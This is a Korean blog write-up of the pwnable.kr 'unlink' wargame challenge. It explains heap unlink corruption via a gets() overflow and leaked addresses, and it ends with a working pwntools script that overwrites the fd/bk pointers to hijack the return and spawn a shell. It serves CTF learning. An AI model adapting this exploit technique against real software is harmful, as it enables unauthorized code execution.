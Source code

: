 ```yaml
---
title: ! "[pwnable.kr] unlink"
classes: wide
excerpt_separator: <!--more-->
date: 2018-09-19
comments : true
tags:
  - pwnable
  - unlink
  - heap
  - chaem
categories:
  - pwn
---
```

<br>
`pwnable.kr` `Toddler's Bottle`의 마지막 문제인 `unlink`문제를 보겠습니다!

<!--more-->

문제를 먼저 풀어보고 싶은 사람은 아래 링크로 고고! 

[pwnable.kr](http://pwnable.kr/play.php)  

![]({{ site.baseurl }}/assets/images/pwnable.kr/unlink_01.PNG)  
<br>
우선 문제의 제목대로 unlink문제는 unlink corruption에 관한 문제입니당 후후  
문제 바이너리를 쭉 살펴봤을 때 보이는 특징은 다음과 같습니다.  

```  

1. system함수를 주고있어요!!!  
shell을 따는 문제라는 것을 알 수 있으며, 나중에 요 함수를 호출할 날이 올 것을 고대하고 있으면 되겠네용  

2. 그 취약하기로 유명한 gets함수로 입력을 받고 있어요!!! overflow 냄새가 납니당 ㅎㅎ  

3. stack /heap 주소를 친절하게 leak해서 알려주고 있어요!!!  
주소를 다 알려주었으니 main함수의 ret을 shell주소로 덮을 일만 남았네용  

```

<br>
![]({{ site.baseurl }}/assets/images/pwnable.kr/unlink_02.PNG)  
<br>
일단, heap의 구조를 봅시다. fd와 bk의 위치에 주소값을 보면 `A<->B<->C` 이렇게 서로를 가리키 있는 것을 볼 수 있습니다.  
<br>
![]({{ site.baseurl }}/assets/images/chaem/pwnable.kr/unlink_03.PNG)  
참고 이미지 출처 : [Heap 영역에서 발생하는 취약점을 알아보자!](https://bpsecblog.wordpress.com/2016/10/06/heap_vuln/)  

그렇지만 unlink함수를 실행한 후에는 A<->C만 가리키도록 바뀌게됩니다.  
unlink함수는 어떻게 생겼는지 함 봐봅시다!!
<br>
![]({{ site.baseurl }}/assets/images/pwnable.kr/unlink_04.PNG)  
<br>
즉, B의 fd와 bk를 조작하여 B를 빼고 A와 C가 서로를 가리키 한다는 것을 알 수 있었죵!  
<br>
![]({{ site.baseurl }}/assets/images/pwnable.kr/unlink_05.PNG)  
<br>
그리고 위에서 한번 언급했듯이 gets를 사용함으로써 overflow가 발생합니다.  
a 16개까지는 괜찮았으나 17개부터 segmentation fault!
이 overflow를 이용해서 B의 fd와 bk까지 우리가 직접 조작할 수 있게되는 것입니다.  
<br>
문제에서 친절하게 stack과 heap의 주소를 leak해주기 때문에 이 주소를 그대로 받아오고, main함수의 return 값을 shell(system함수가 들어있는 함수)함수의 주소로 덮어주면 됩니다.  
하지만!!!! shell함수가 code영역을 사용하여 `쓰기권한`이 없기때문에 다른 방법을 더 모색해봐야합니다.  
<br>
![]({{ site.baseurl }}/assets/images/pwnable.kr/unlink_06.PNG)  
<br>
gdb로 main함수의 마지막 부분을 보면 우리가 일반적으로 알고있는 구조와는 다른 것을 볼 수 있습니다. ebp-4의 값을 ecx레지스터에 넣고 다시 ecx-0x4를 참조해 esp를 조정하기 때문에, 이 esp에서 eip를 설정할 수 있게 됩니다.  
<br>
unlink함수를 보면 ebp를 조작가능한 것을 볼 수 있습니다. 즉 unlink에서부 부터 ebp를 조작하여 최종적으로 esp를 컨트롤할 수 있게 되는것입니다.  
따라서, `ebp-4의 stack값을 덮어 쓰면, 주소가 가리키는 것보다 4bytes 앞부터 실행될 것입니다. 우리는 heap을 제어할 수 있으므로 그 시점에 shell의 주소를 쓰면 되는 것이죠!`  
<br>
![]({{ site.baseurl }}/assets/images/pwnable.kr/unlink_07.PNG)  
<br>
ebp-0x4의 주소와 문제에서 leak해주는 heap주소의 차이는 0x10입니다. 즉, ebp-0x4의 주소와 A의 시작주소가 0x10차이 나는 것입니다. (B->fd)  
또한, A->buf에서 16bytes를 계산하여야 B이지만, 이미 4bytes를 포함하여 계산한 것이므로 12byte로 계산해주면 됩니다. (B->bk)  
<br>
![]({{ site.baseurl }}/assets/images/pwnable.kr/unlink_08.PNG)  
<br>

```  

#! usr/bin/env python
from pwn import *

ssh = ssh(user='unlink', host='pwnable.kr', port=2222, password='guest')
s = ssh.process("/home/unlink/unlink")

s.recvuntil('here is stack address leak: ')
stack_addr = int(s.recv(10),16)
s.recvuntil('here is heap address leak: ')
heap_addr = int(s.recv(10),16)

log.success('Stack leak : ' + hex(stack_addr))
log.success('Heap leak : ' + hex(heap_addr))

payload = p32(0x080484eb) #call shell
payload +="A"*12
payload += p32(heap_addr+12) #B->bk
payload += p32(stack_addr+0x10) #B->fd

s.sendlineafter('get shell!\n', payload)
s.interactive()

```
